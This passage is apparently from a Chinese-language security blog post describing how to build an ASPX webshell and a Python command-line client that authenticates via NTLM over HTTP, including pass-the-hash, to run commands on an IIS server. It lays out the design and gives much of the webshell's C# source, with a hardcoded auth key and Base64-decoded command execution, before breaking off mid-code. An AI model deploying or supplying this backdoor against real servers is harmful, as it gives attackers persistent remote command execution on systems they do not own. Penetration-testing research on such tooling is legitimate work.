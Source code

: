 访问test.aspx时均需要通过NTLM Over HTTP协议进行NTLM认证

这里以一个支持cmd命令的webshell为例进行测试，webshell的地址为：

https://github.com/tennc/webshell/blob/master/aspx/asp.net-backdoors/cmdexec.aspx

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-1-30/2-1.png)

这个webshell需要通过浏览器进行操作，首先完成NTLM认证，接着填入正确的Auth Key和要执行的cmd命令

我们的目标是满足能够在命令行下使用，可以以此为模板进行修改，设计思路如下：

(1)execCmd.aspx

接收Form表单请求作为参数，对Auth Key进行验证

如果验证失败，返回空结果

如果验证成功，执行传入的cmd命令并返回执行结果

(2)aspxCmdNTLM.py

命令行脚本

首先通过NTLM Over HTTP协议完成NTLM认证，这里需要支持明文和用户口令hash两种登录方式

通过Form表单请求发送Auth Key和要执行的cmd命令，接收cmd命令的执行结果

execCmd.aspx和aspxCmdNTLM.py的通信内容作Base64编码，在程序实现上需要考虑Base64编码和解码

## 0x03 脚本开发细节
---

### 1.execCmd.aspx

使用Page_Load方法接收Form表单请求，其中data1用作Auth Key，data2用作cmd命令

Base64编码的实现：

```
byte[] enbytes = Encoding.Default.GetBytes(string1);
string string2 = Convert.ToBase64String(enbytes);
```

Base64解码的实现：

```
byte[] outbyte = Convert.FromBase64String(string1);
string string2 = Encoding.Default.GetString(outbyte);
```

完整的实现代码如下：

```
<%@ Page Language="C#"%>
<%@ Import namespace="System.Diagnostics"%>
<%@ Import Namespace="System.IO"%>

<script runat="server">
    private const string AUTHKEY = "UGFzc3dvcmQxMjM0NTY3ODk";
    protected void Page_Load(object sender, EventArgs e)
    {    
        string data1 = Request.Form["data1"];
        if (data1 != AUTHKEY)
        {          
            return;
        }
        string data2 = Request.Form["data2"];
        byte[] outbyte = Convert.FromBase64String(data2);
        string payload = Encoding.Default.GetString(outbyte);              
        string outstr1 = ExecuteCommand(payload);
```